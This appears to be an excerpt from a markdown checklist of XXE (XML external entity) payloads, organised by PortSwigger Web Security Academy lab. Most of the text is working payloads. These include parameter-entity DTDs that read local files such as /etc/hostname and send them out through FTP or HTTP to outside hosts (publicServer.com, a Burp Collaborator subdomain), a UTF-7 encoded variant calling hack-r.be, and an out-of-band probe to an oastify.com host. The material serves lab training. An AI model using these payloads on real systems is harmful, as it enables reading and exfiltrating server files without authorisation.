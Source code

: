     File stored on <http://publicServer.com/parameterEntity_sendftp.dtd>

    <!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'ftp://publicServer.com/%payload;'>">
    %param1;
    ```

    **XXE UTF-7**

    ```xml
    <?xml version="1.0" encoding="UTF-7"?>
    +ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
    +ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
    +ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
    ```

    To convert between UTF-8 & UTF-7 use recode. `recode UTF8..UTF7 payload-file.xml`
*   [ ] [**Blind XXE with out-of-band interaction**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

    **Exploit**

    ```jsx
    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://604s4g1hgg9g6irk4v41hsjt2k8bw4kt.oastify.com"> ]>
    <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
    ```
*   [ ] [**Exploiting blind XXE to exfiltrate data using a malicious external DTD**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

    **External DTD**

    ```jsx
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
    %eval;
    %exfil;
    ```

    **Exploit**

    ```jsx
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
    ```
*   [ ] [**Blind XXE with out-of-band interaction via XML parameter entities**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)

    **Exploit**

    ```xml
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
    ```
*   [ ] [**Exploiting blind XXE to retrieve data via error messages**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages) **\[ DTD Blind Out-of-band ]**

    > On the exploit server change the hosted file name to /exploit.dtd as the exploit file with Document Type Definition (DTD) extension, containing the following payload. The % is the Unicode hex character code for percent sign %. Parameter entities are referenced using the percent character instead of the usual ampersand.

